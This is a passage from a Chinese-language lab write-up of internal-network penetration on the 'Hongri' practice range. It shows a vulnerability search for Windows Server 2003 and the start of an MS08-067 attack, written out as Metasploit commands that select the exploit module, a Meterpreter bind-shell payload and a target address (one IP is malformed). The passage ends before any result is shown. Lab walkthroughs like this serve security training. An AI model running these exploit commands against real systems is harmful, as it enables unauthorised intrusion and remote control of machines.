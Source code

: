 连接成功，管道打开

![image-20210809171049187](红日靶场内网渗透.assets/image-20210809171049187.png)



**2.使用相关荷载攻击**

通过在漏洞库中搜索win2003相关的漏洞

![image-20210809172910901](红日靶场内网渗透.assets/image-20210809172910901.png)



这里尝试ms08-067和ms06_040进行测试

```
注:MS08-067漏洞将会影响除Windows Server 2008 Core以外的所有Windows系统，包括：Windows 2000/XP/Server 2003/Vista/Server 2008的各个版本，甚至还包括测试阶段的Windows 7 Pro-Beta
```



**2.1 ms08-067漏洞利用**

```
search ms08-067          ###搜索相关模块

use exploit/windows/smb/ms08_067_netapi

set payload windows/meterpreter/bind_tcp    ###使用正向shell荷载

set rhost 192.168.52.1141           ###设置目标主机Ip地址
```
